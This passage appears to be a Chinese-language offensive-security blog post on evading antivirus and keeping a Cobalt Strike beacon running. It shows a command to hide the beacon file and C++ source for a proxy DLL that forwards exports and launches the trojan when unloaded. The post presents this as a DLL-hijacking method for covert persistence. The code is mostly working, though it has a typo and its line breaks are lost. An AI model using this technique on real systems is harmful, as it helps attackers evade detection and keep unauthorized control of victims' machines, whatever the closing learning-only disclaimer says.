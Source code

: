 Ps：这种直接生成的dll不免杀，实战中需要做免杀处理。

### dll加载免杀马上线

首先给这个文件加一个隐藏属性:

  * 

    
    
    attrib +h beacon.exe

接着采用DLL去加载这个木马，

代码如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include "pch.h"#include "windows.h"//开始转发，将函数方法转发//导出函数#pragma comment(linker,"/EXPORT:add=testdll.add,@1")#pragma commnet(linker,"/EXPORT:message=testdll.message,@2")//入口函数BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved){    if (dwReason == DLL_PROCESS_ATTACH)    {        DisableThreadLibraryCalls(hModule);    }    else if (dwReason == DLL_PROCESS_DETACH)    {        STARTUPINFO si = { sizeof(si) };        PROCESS_INFORMATION pi;        CreateProcess(TEXT("path\\beacon.exe"), NULL, NULL, NULL, false, 0, NULL, NULL, &si, &pi);    }  
        return TRUE;}

然后后面直接去尝试加载就行了,程序执行完的时候(`DLL_PROCESS_DETACH`),会自动加载我们的cs马。

说一下这种方案的好处,就是DLL根本没有恶意操作,所以肯定会免杀，但是你的木马文件要做好免杀，这种思路主要应用于通过劫持一些程序的DLL,然后实现隐蔽的重启上线，也就是权限持续维持，单单杀启动项对DLL进行权限维持的方式来说是没有用的。

参考文章：https://www.anquanke.com/post/id/232891#h2-12  

  

  

![](https://gitee.com/fuli009/images/raw/master/public/20210825172524.png)

END

![](https://gitee.com/fuli009/images/raw/master/public/20210825172524.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20210825172526.png)

  

 **看完记得点赞，关注哟，爱您！**

  
 **请严格遵守网络安全法相关条例！此分享主要用于学习，切勿走上违法犯罪的不归路，一切后果自付！**

  

  
关注此公众号，回复"Gamma"关键字免费领取一套网络安全视频以及相关书籍，公众号内还有收集的常用工具！  
**在看你就赞赞我！**![](https://gitee.com/fuli009/images/raw/master/public/20210825172527.png)![]()![](https://gitee.com/fuli009/images/raw/master/public/20210825172528.png)![](https://gitee.com/fuli009/images/raw/master/public/20210825172529.png)
扫码关注我们![](https://gitee.com/fuli009/images/raw/master/public/20210825172529.png)
